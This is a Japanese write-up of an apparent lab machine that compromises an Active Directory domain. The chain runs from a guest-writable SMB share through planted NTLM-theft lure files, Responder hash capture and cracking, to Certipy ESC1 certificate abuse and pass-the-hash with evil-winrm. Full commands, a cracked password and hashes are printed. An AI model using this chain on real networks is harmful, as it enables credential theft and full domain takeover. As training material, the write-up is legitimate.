

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows (Server 2022) |
| 難易度 | Hard |
| 攻撃対象 | SMB (Guestアクセス可能な書き込み共有)、Active Directory証明書サービス (ADCS) |
| 主な侵入経路 | Guest SMB書き込み -> SCFファイル配置 -> NTLMv2ハッシュ取得 -> クラック |
| 権限昇格経路 | ADCS ESC1 (NaraUserテンプレート) -> Administrator証明書 -> Pass-the-Hash |

## 認証情報

```text
Tracy.White         zqwj041FGX              (NTLMv2クラック)
Administrator       d35c4ae45bdd10a4e28ff529a2155745  (ADCS ESC1経由のNTハッシュ)
```

## 偵察

---
💡 なぜ有効か
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.30:53
Open 192.168.198.30:88
Open 192.168.198.30:135
Open 192.168.198.30:389
Open 192.168.198.30:445
Open 192.168.198.30:636
Open 192.168.198.30:3389
Open 192.168.198.30:5985
Open 192.168.198.30:9389
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: nara-security.com)
445/tcp   open  microsoft-ds?
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: nara-security.com)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: nara-security.com)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

LDAPとRPCは匿名アクセス不可。しかしSMBのGuestログインで書き込み可能な `nara` 共有を発見:

```bash
smbclient -L //$ip -N
```

```bash
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
nara            Disk      company share
NETLOGON        Disk      Logon server share
SYSVOL          Disk      Logon server share
```

Guest認証情報でRIDブルートフォースを実行し、ドメインユーザーを列挙:

```bash
netexec smb $ip -u 'guest' -p '' --rid-brute
```

```bash
1104: NARASEC\Amelia.O'Brien (SidTypeUser)
1105: NARASEC\Damian.Johnson (SidTypeUser)
1106: NARASEC\Helen.Robinson (SidTypeUser)
1107: NARASEC\Sara.O'Sullivan (SidTypeUser)
1108: NARASEC\Jasmine.Roberts (SidTypeUser)
1109: NARASEC\Declan.Reynolds (SidTypeUser)
1110: NARASEC\Jodie.Summers (SidTypeUser)
1111: NARASEC\Carolyn.Hill (SidTypeUser)
1112: NARASEC\Jemma.Humphries (SidTypeUser)
1113: NARASEC\Tracy.White (SidTypeUser)
1115: NARASEC\Remote Access (SidTypeGroup)
1116: NARASEC\Enrollment (SidTypeGroup)
```

`Enrollment` グループの存在はADCS証明書テンプレートの設定ミスを示唆していた。

## 初期侵入

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

`nara` 共有はGuestアクセスで書き込み可能だった。NTLM窃取用ファイル (SCF、LNK、URL、desktop.ini) を生成して共有に配置:

```bash
python3 ~/tools/ntlm_theft/ntlm_theft.py -g all -s 192.168.45.166 -f test.lnk
```

```bash
Created: test.lnk/test.lnk.scf (BROWSE TO FOLDER)
Created: test.lnk/test.lnk.lnk (BROWSE TO FOLDER)
Created: test.lnk/desktop.ini (BROWSE TO FOLDER)
...
```

smbclientで共有にファイルをアップロード:

```bash
smbclient //$ip/nara -U 'nara%nara'
smb: \> put ./test.lnk.lnk
smb: \> cd Documents\
smb: \Documents\> put ./test.lnk.lnk
```

ユーザーがフォルダをブラウズした際にResponderでNTLMv2ハッシュを取得:

```bash
sudo responder -I tun0 -v
```

```bash
[SMB] NTLMv2-SSP Client   : 192.168.198.30
[SMB] NTLMv2-SSP Username : NARASEC\Tracy.White
[SMB] NTLMv2-SSP Hash     : Tracy.White::NARASEC:badae4837aadc363:4265C7DB2CBFEE96FF1ECAA07E3745F0:0101000000000000...
```

Johnでハッシュをクラック:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
zqwj041FGX       (Tracy.White)
```

💡 なぜ有効か
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## 権限昇格

---
Certipyで脆弱なADCSテンプレートを列挙。`NaraUser` テンプレートにESC1が存在 — `EnrolleeSuppliesSubject` 有効、Client Authentication対応、Domain Usersが登録可能:

```bash
certipy-ad find -u Tracy.White@nara-security.com -p 'zqwj041FGX' \
  -dc-ip $ip -vulnerable -stdout
```

```bash
[!] Vulnerabilities
    ESC1: Enrollee supplies subject and template allows client authentication.
```

Administratorを偽装する証明書を要求:

```bash
certipy-ad req -u 'Tracy.White'@nara-security.com -p 'zqwj041FGX' -dc-ip $ip \
  -ca 'NARA-CA' -template 'NaraUser' \
  -upn 'administrator@nara-security.com'
```

```bash
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@nara-security.com'
[*] Saving certificate and private key to 'administrator.pfx'
```

証明書で認証し、AdministratorのNTハッシュを取得:

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip $ip
```

```bash
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Got hash for 'administrator@nara-security.com': aad3b435b51404eeaad3b435b51404ee:d35c4ae45bdd10a4e28ff529a2155745
```

AdministratorとしてWinRM接続:

```bash
evil-winrm -i $ip -u administrator -H d35c4ae45bdd10a4e28ff529a2155745
```

```bash
*Evil-WinRM* PS C:\Users\tracy.white\desktop> type local.txt
8baa411da21b57e1ca9193cf735f1dbe
```

```bash
*Evil-WinRM* PS C:\Users\Administrator\desktop> type proof.txt
9fa5a2fb95cbc0e0387f758c0a74dfbc
```

💡 なぜ有効か
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## まとめ・学んだこと

- Guest書き込み可能なSMB共有は非常に危険 — SCF/LNK/URLファイルはフォルダをブラウズするだけで自動的にNTLM認証をトリガーする。
- ADCS ESC1 (`EnrolleeSuppliesSubject` + Client Authentication + Domain Usersが登録可能) により、任意のドメインユーザーがAdministratorを偽装可能。
- RID列挙で `Enrollment` グループが見つかった場合、ラボ環境ではADCSテンプレートの設定ミスを強く示唆する。
- ドメイン認証情報を取得したら、常に `certipy-ad find -vulnerable` でADCSの脆弱性をチェックする。
- PKINIT が失敗した場合 (`KDC_ERR_PADATA_TYPE_NOSUPP`)、PassTheCert (Schannel LDAPS認証) にフォールバックする。

### Attack Flow

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考文献

- ntlm_theft: https://github.com/Greenwolf/ntlm_theft
- Responder: https://github.com/lgandx/Responder
- Certipy: https://github.com/ly4k/Certipy
- ADCS ESC1: https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html
- Evil-WinRM: https://github.com/Hackplayers/evil-winrm
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
